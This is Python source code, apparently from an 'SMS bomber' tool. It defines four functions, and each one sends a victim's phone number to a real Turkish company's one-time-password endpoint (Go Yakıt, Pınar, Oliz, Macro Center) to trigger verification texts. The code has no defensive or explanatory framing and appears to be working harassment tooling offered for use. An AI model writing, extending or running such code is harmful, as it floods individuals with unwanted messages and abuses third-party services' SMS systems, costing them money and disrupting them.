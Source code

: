 def goyakit(number):
    try:
        url = f"https://gomobilapp.ipragaz.com.tr/api/v1/0/authentication/sms/send?phone={number}&isRegistered=false"
        r = requests.get(url=url, timeout=5)
        r1 = json.loads(r.text)["data"]["success"]
        if r1 == True:
            return True, "Go Yakıt"
        else:
            return False, "Go Yakıt"
    except:
        return False, "Go Yakıt"

def pinar(number):
    try:
        url = "https://pinarsumobileservice.yasar.com.tr/pinarsu-mobil/api/Customer/SendOtp"
        payload = {
            "MobilePhone" : f"{number}"
        }
        headers = {
            "devicetype" : "android",
        }
        r = requests.post(url=url, headers=headers, json=payload, timeout=5)
        if r.text == True:
            return True, "Pınar"
        else:
            return False, "Pınar"
    except:
        return False, "Pınar"

def oliz(number):
    try:
        url = "https://api.oliz.com.tr/api/otp/send"
        payload = {
            "mobile_number" : f"{number}",
            "type" : None
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["meta"]["messages"]["success"][0]
        if r1 == "SUCCESS_SEND_SMS":
            return True, "Oliz"
        else:
            return False, "Oliz"
    except:
        return False, "Oliz"

def macrocenter(number):
    try:
        url = f"https://www.macrocenter.com.tr/rest/users/login/otp?reid={int(time.time())}"
        payload = {
            "phoneNumber" : f"{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["successful"]
        if r1 == True:
            return True, "Macro Center"
        else:
            return False, "Macro Center"
    except:
        return False, "Macro Center"
